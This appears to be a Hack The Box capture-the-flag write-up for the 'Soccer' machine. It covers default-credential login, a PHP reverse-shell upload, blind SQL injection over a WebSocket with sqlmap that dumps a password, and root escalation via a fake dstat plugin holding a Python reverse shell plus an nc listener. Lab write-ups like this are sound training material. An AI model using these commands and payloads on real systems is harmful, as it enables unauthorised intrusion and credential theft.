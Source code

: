 ```yaml
---
title: Soccer
date: 2023-08-22 15:53:16 +0800
categories: [Hackthebox, easy]
tags: [htb, ctf, pentesting, web, unix, prev-esc]
---
```



## Soccer is an easy unix machine on Hackthebox






*Nmap* Scan

```shell 

PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp    open     http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/

9091/tcp  open     xmltec-xmlmail?


```


Found another entry using *gobuster dir*

```shell
http://soccer.htb/tiny/ // and it's runing Tinyfilemanager service

```

I was able to log in using `Tinyfilemanager` default cridintials

Now I can upload upload my php reverse-shell to `/tiny/uploads` because this is the only one that have write permissions

and `Boom` I got shell

found unpermmited user.txt in `/home/player/`


Found another domain in `/etc/hosts`

`soc-player.soccer.htb`


SignUp and login 

view page source in /check  and

found WebSocket request to `ws://soc-player.soccer.htb:9091`


Because *sqlmap* needs to send request and check response and websockets not offering that

I used a middlware script from https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
and changed url and data to take `{"id": msg}` 

Now I can pass this middlware server to *sqlmap* like this

```shell
sqlmap -u http://localhost:3000/?id=1 -p id --batch

Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9421 FROM (SELECT(SLEEP(5)))qoOs)


```


Now it's time to extract some creds from this database

```shell

sqlmap -u http://localhost:3000/?id=1 -p id --risk 3 --level 5  --batch -D soccer_db -T accounts --dump 


+---------+-------------------+----------------------+----------+
| id      | email             | password             | username |
+---------+-------------------+----------------------+----------+
| 1324    | player@player.htb | PlayerOftheMatch2022 | player   |
| <blank> | <blank>           | <blank>              | <blank>  |
+---------+-------------------+----------------------+----------+


```

I got this password

`PlayerOftheMatch2022`

now we can ssh to this machine as `player` user


```shell

ssh player@soc-player.soccer.htb

```
And here we are

```shell
player@soccer:~$

```


Running *Linpeas.sh* found that dstat runing as root with nopassword using doas(e.g doas is similar sudo)
```shell
╔══════════╣ Checking doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
reading the dstat manual found that I can execute external plugins using --<plugin-name> flag

after reading `dstat` source code found that it has tow paths to access plugins from

`/usr/share/dstat/` but only root  can write here
`/usr/local/share/dstat/` so this one looks promising 


So inside of `/usr/local/share/dstat/` I created a fake plugin called `dstat_shell.py` (it should start with `dstat` prefix this is how `dstat` command can access it)

and put this python reverse shell

```py
#! /usr/bin/python3


import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",1998));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")

```

And in my machine start listning on port 1998

```shell
nc -lnvp 1998
```

And in soccer machine excuted this command

```shell

doas -u root /usr/bin/dstat --shell # --shell = --<plugin-name>

```


And I got a shell

```shell

listening on [any] 1998 ...
connect to [10.10.14.161] from (UNKNOWN) [10.10.11.194] 50998
# id
id
uid=0(root) gid=0(root) groups=0(root)


```

And I'm root

I got the root flag